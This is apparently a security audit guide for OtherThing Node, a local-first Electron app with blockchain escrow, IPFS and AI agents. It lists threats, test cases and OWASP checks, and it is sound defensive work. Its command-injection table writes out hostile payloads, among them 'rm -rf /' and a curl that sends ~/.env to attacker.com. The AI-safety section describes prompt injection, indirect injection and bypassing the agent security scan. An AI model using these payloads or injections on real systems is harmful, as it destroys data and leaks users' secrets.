





# Security Audit Guide — OtherThing Node

## Overview

This document provides a prioritized security audit guide for OtherThing Node, a decentralized workspace platform running as an Electron desktop application with an Express API at `localhost:8080`. The architecture presents a unique threat model: it is a local-first application with blockchain interactions, AI agent execution, IPFS storage, and no traditional server-side authentication boundary.

---

## Attack Surface Diagram

---

## P1: CRITICAL — Local API Exposure

### Threat Description

The Express server on `localhost:8080` has **no authentication** in local mode. The `localAuth` middleware injects a mock session for every request, meaning any process on the machine can call the full API with the privileges of the logged-in user.

### Files to Review

| File | Concern |
|------|---------|
| `api-server.ts` | Server creation, middleware chain, no auth enforcement |
| `routes/types.ts` | `localAuth` middleware definition — mock session injection |
| All route files | Every endpoint is accessible without credentials |

### Test Cases

| ID | Test | Expected (Current) | Risk |
|----|------|---------------------|------|
| P1-01 | `curl http://localhost:8080/api/v1/workspaces` | Returns workspace list without auth header | Any local process reads all workspace data |
| P1-02 | `curl -X POST http://localhost:8080/api/v1/tasks -d '{...}'` | Creates task without auth | Malware creates rogue tasks |
| P1-03 | WebSocket connect to `ws://localhost:8080/ws/agents` and send `subscribe` | Receives all agent updates | Passive surveillance of AI agent activity |
| P1-04 | WebSocket send `call-join` | Joins voice call | Eavesdrop on calls |
| P1-05 | `curl http://localhost:8080/api/v1/agents -X POST -d '{"goal":"exfiltrate data"}'` | Agent executes goal | Malware uses AI agent to exfiltrate data |
| P1-06 | Multiple rapid requests from different local processes | All succeed | No rate limiting |

### Local API Threat Model

---

## P2: CRITICAL — Smart Contract Security

### Threat Description

OTT tokens are locked in milestone escrow contracts. Vulnerabilities in state transitions, authorization checks, or dispute resolution logic could lead to token theft or unauthorized release.

### Files to Review

| File | Concern |
|------|---------|
| `milestones.ts` | Milestone state machine, escrow lock/release logic |
| `agreements.ts` | Worker assignment, agreement validation |
| `web3.ts` | Contract interaction, transaction signing |
| `chain-sync.ts` | Blockchain event listener, state synchronization |

### Test Cases

| ID | Test | Risk |
|----|------|------|
| P2-01 | Attempt to release escrow for a milestone not in `completed` state | Double-release of funds |
| P2-02 | Attempt milestone approval from non-owner address | Unauthorized fund release |
| P2-03 | Submit dispute, verify AI advisory result cannot auto-execute release | AI-driven theft |
| P2-04 | Assign worker without valid node registration | Unregistered worker receives funds |
| P2-05 | Rapid state transitions: create -> fund -> complete -> release in same block | Race condition exploitation |
| P2-06 | Send milestone transaction with manipulated gas price / front-running | MEV-style attacks |
| P2-07 | Verify chain-sync handles reorgs (block reverts) correctly | Phantom completions |

### Smart Contract Interaction Points

---

## P3: HIGH — IPFS Content Security

### Threat Description

IPFS operates in private network mode with a swarm key, but content stored in IPFS has no encryption and no access control beyond knowing the CID. If the swarm key leaks or a node joins the private swarm, all content is accessible.

### Files to Review

| File | Concern |
|------|---------|
| `ipfs-manager.ts` | IPFS node configuration, swarm key, private network setup |
| `ipfs-export-service.ts` | Workspace data export — stores plaintext in IPFS |

### Test Cases

| ID | Test | Risk |
|----|------|------|
| P3-01 | Extract swarm key from `~/.otherthing/` and join private network from external node | Full content access |
| P3-02 | Enumerate CIDs from blockchain events or API responses | Content discovery without authorization |
| P3-03 | Add malicious content to IPFS, reference CID in workspace | No content validation on `ipfs.get()` |
| P3-04 | Export workspace data and inspect IPFS blocks | Plaintext workspace data readable |
| P3-05 | Check if IPFS API port (5001) is exposed beyond localhost | Remote IPFS API access |

---

## P4: HIGH — Command Injection Vectors

### Threat Description

Multiple code paths spawn child processes with user-controlled input. If input is not properly sanitized, an attacker (via the unauthenticated API) can execute arbitrary commands on the host machine.

### Files to Review

| File | Vector | User-Controlled Input |
|------|--------|----------------------|
| `compute.ts` | code-server spawn | Folder path |
| `sandbox-preview.ts` | Sandbox process spawn | Command string, working directory |
| `repos.ts` | Git clone | Repository URL |
| `git.ts` | Git operations | Paths, branch names |
| ZLayer deployment | Deploy command | Deployment spec |

### Test Cases

| ID | Test | Payload Example | Risk |
|----|------|-----------------|------|
| P4-01 | code-server with injected folder path | `; rm -rf /` in folder path | Arbitrary command execution |
| P4-02 | Sandbox preview with injected command | `&& curl attacker.com/exfil?d=$(cat ~/.env)` | Data exfiltration |
| P4-03 | Git clone with malicious URL | `--upload-pack="cmd"` in URL | Git protocol exploitation |
| P4-04 | Repo analysis with path traversal | `../../etc/passwd` as repo path | File system traversal |
| P4-05 | ZLayer deploy with injected spec | Shell metacharacters in spec fields | Container escape / host access |
| P4-06 | Verify all child_process calls use array args (not shell string) | N/A | `spawn` with `shell: true` is vulnerable |

### Injection Point Flow

---

## P5: HIGH — AI Safety

### Threat Description

AI agents execute goals using tools (file operations, code execution, web requests). The security scanning system checks goals and actions but could be bypassed through prompt injection or indirect prompt injection via workspace content.

### Files to Review

| File | Concern |
|------|---------|
| `agent.ts` (adapters) | Agent execution loop, tool calls, security scanning |
| `transcription-service.ts` | Audio content processed without validation |
| `digest-service.ts` | Workspace content summarized — could contain injection payloads |

### Test Cases

| ID | Test | Risk |
|----|------|------|
| P5-01 | Submit agent goal with embedded system prompt override | Bypass security scan |
| P5-02 | Place prompt injection in task description, trigger agent summarization | Indirect injection via workspace content |
| P5-03 | Agent goal requesting file system access outside workspace | Path traversal via agent tools |
| P5-04 | Submit audio with embedded text commands for transcription | Audio-based injection |
| P5-05 | Agent tool execution: verify no `exec` or `eval` with unsanitized input | Code execution escape |
| P5-06 | Dispute analysis with crafted milestone description to bias AI decision | Advisory manipulation |

---

## P6: MEDIUM — Data Persistence

### Threat Description

All workspace state (tasks, chat messages, agent executions) is stored in memory and lost on application restart. IPFS is the only durable storage for workspace artifacts. There is no backup/restore mechanism.

### Files to Review

| File | Concern |
|------|---------|
| In-memory stores across routes | Data loss on crash/restart |
| `ipfs-export-service.ts` | Only persistence mechanism |

### Test Cases

| ID | Test | Risk |
|----|------|------|
| P6-01 | Create tasks, restart application, verify tasks are gone | Silent data loss |
| P6-02 | Kill process mid-agent-execution | Orphaned state, partial results lost |
| P6-03 | Verify IPFS export includes all workspace data | Incomplete backup |
| P6-04 | Blockchain data survives restart (read from chain) | Blockchain = persistent, everything else = ephemeral |

---

## Data Flow Security Boundaries

---

## OWASP Top 10 Assessment — OtherThing Specific

### A01:2021 — Broken Access Control

| Check | Status | Detail |
|-------|--------|--------|
| Authentication on API endpoints | **FAIL** | `localAuth` middleware injects mock session; no real auth |
| WebSocket authentication | **FAIL** | No handshake token or auth check |
| Role-based access control | **N/A** | Single-user desktop app; no roles implemented |
| Path traversal prevention | **REVIEW** | Check all file path parameters in compute.ts, repos.ts |
| CORS configuration | **REVIEW** | Verify localhost CORS policy restricts browser-based attacks |
| Rate limiting | **FAIL** | No rate limiting on any endpoint |

### A02:2021 — Cryptographic Failures

| Check | Status | Detail |
|-------|--------|--------|
| IPFS content encryption | **FAIL** | Workspace data stored in plaintext on IPFS |
| Swarm key protection | **REVIEW** | Verify swarm key file permissions (should be 0600) |
| Sensitive data in .env | **REVIEW** | Verify .env not committed, not readable by other users |
| HTTPS for external API calls | **REVIEW** | Verify Appwrite and RPC endpoints use TLS |
| Private key management | **REVIEW** | How are blockchain signing keys stored? |

### A03:2021 — Injection

| Check | Status | Detail |
|-------|--------|--------|
| OS command injection | **FAIL** | Multiple `child_process` calls with user input (P4) |
| Prompt injection (AI) | **REVIEW** | Agent security scanning exists but may be bypassable |
| Git protocol injection | **REVIEW** | Git clone with user-provided URLs |
| NoSQL injection (Appwrite) | **REVIEW** | Verify query parameters are parameterized |

### A04:2021 — Insecure Design

| Check | Status | Detail |
|-------|--------|--------|
| Threat model documented | **NOW** | This document |
| Defense in depth | **FAIL** | Single trust boundary (localhost), no layered auth |
| Fail-safe defaults | **REVIEW** | What happens when Ollama/IPFS is unavailable? |
| In-memory data loss by design | **KNOWN** | Documented limitation; no mitigation in place |

### A05:2021 — Security Misconfiguration

| Check | Status | Detail |
|-------|--------|--------|
| Default credentials | **REVIEW** | Check Appwrite default config |
| Unnecessary features enabled | **REVIEW** | Is IPFS API port exposed beyond localhost? |
| Error handling leaks info | **REVIEW** | Check that stack traces are not returned in API responses |
| Port fallback (8080 -> 8081) | **REVIEW** | If 8080 is occupied by attacker, app falls back silently |

### A06:2021 — Vulnerable and Outdated Components

| Check | Status | Detail |
|-------|--------|--------|
| npm audit clean | **RUN** | `pnpm audit` — check for known CVEs |
| Electron version current | **REVIEW** | Outdated Electron = Chromium vulns |
| Ollama version | **REVIEW** | Check for known inference vulnerabilities |

### A07:2021 — Identification and Authentication Failures

| Check | Status | Detail |
|-------|--------|--------|
| Session management | **FAIL** | No real sessions; mock session injected |
| Credential storage | **REVIEW** | Appwrite keys in .env — permissions? |
| Multi-factor auth | **N/A** | Local desktop app |

### A08:2021 — Software and Data Integrity Failures

| Check | Status | Detail |
|-------|--------|--------|
| IPFS content integrity | **PASS** | CID is content-hash; tamper-evident by design |
| Blockchain data integrity | **PASS** | Immutable ledger |
| Agent tool output validation | **REVIEW** | Does agent verify tool outputs before acting on them? |
| Update mechanism integrity | **REVIEW** | Is the Linux installer verified (checksum/signature)? |

### A09:2021 — Security Logging and Monitoring

| Check | Status | Detail |
|-------|--------|--------|
| API access logging | **REVIEW** | Are requests logged with enough detail for forensics? |
| Agent action audit trail | **REVIEW** | Are all agent tool invocations logged? |
| Failed operation logging | **REVIEW** | Are errors and failures logged and not swallowed? |
| Alerting on suspicious patterns | **FAIL** | No anomaly detection or alerting system |

### A10:2021 — Server-Side Request Forgery (SSRF)

| Check | Status | Detail |
|-------|--------|--------|
| Git clone URL validation | **REVIEW** | Can attacker clone `file:///etc/passwd` or internal URLs? |
| Agent web requests | **REVIEW** | Can agents make HTTP requests to internal services? |
| IPFS gateway requests | **REVIEW** | Can CID references trigger fetches to arbitrary endpoints? |

---

## Recommended Audit Priority Order

```mermaid
flowchart TB
    classDef critical fill:#e74c3c,stroke:#c0392b,color:#fff,stroke-width:2px
    classDef high fill:#e67e22,stroke:#d35400,color:#fff,stroke-width:2px
    classDef medium fill:#f1c40f,stroke:#d4ac0f,color:#000,stroke-width:2px
    classDef action fill:#3498db,stroke:#2471a3,color:#fff,stroke-width:2px

    subgraph Week1["Week 1: Critical"]
        P1A[P1: Add localhost<br/>session token auth]:::critical
        P1B[P1: WebSocket<br/>auth handshake]:::critical
        P2A[P2: Audit milestone<br/>state machine]:::critical
        P2B[P2: Test escrow<br/>double-release]:::critical
    end

    subgraph Week2["Week 2: High"]
        P4A[P4: Audit all<br/>child_process calls]:::high
        P4B[P4: Add input<br/>sanitization]:::high
        P3A[P3: Add IPFS<br/>content encryption]:::high
        P3B[P3: Restrict IPFS<br/>API port]:::high
    end

    subgraph Week3["Week 3: High"]
        P5A[P5: Harden agent<br/>security scanning]:::high
        P5B[P5: Add tool<br/>execution sandboxing]:::high
        P5C[P5: Indirect injection<br/>testing]:::high
    end

    subgraph Week4["Week 4: Medium"]
        P6A[P6: Implement<br/>persistent storage]:::medium
        P6B[P6: Add backup<br/>mechanism]:::medium
        OW[OWASP remaining<br/>items]:::medium
    end

    subgraph Actions["Quick Wins"]
        QW1[Verify 127.0.0.1<br/>binding]:::action
        QW2[Run pnpm audit]:::action
        QW3[Check .env<br/>file permissions]:::action
        QW4[Check IPFS port<br/>binding]:::action
    end

    Week1 --> Week2 --> Week3 --> Week4
    Actions -.->|"do immediately"| Week1
```

---

## Audit Checklist Summary

| # | Priority | Area | Key Question | Files |
|---|----------|------|--------------|-------|
| 1 | P1 | Local API | Can any local process call the full API? | api-server.ts, routes/types.ts |
| 2 | P1 | WebSocket | Can any local process subscribe to all events? | api-server.ts |
| 3 | P2 | Escrow | Can funds be released twice or by unauthorized party? | milestones.ts, web3.ts |
| 4 | P2 | Agreements | Can unregistered workers be assigned? | agreements.ts |
| 5 | P3 | IPFS | Is workspace data encrypted at rest? | ipfs-export-service.ts |
| 6 | P3 | IPFS | Is the swarm key properly protected? | ipfs-manager.ts |
| 7 | P4 | Injection | Are all child_process calls safe from injection? | compute.ts, repos.ts, git.ts, sandbox-preview.ts |
| 8 | P5 | AI | Can agent security scanning be bypassed? | agent.ts |
| 9 | P5 | AI | Can indirect prompt injection influence agent behavior? | digest-service.ts |
| 10 | P6 | Persistence | Is data loss on restart acceptable? | All route files with in-memory stores |
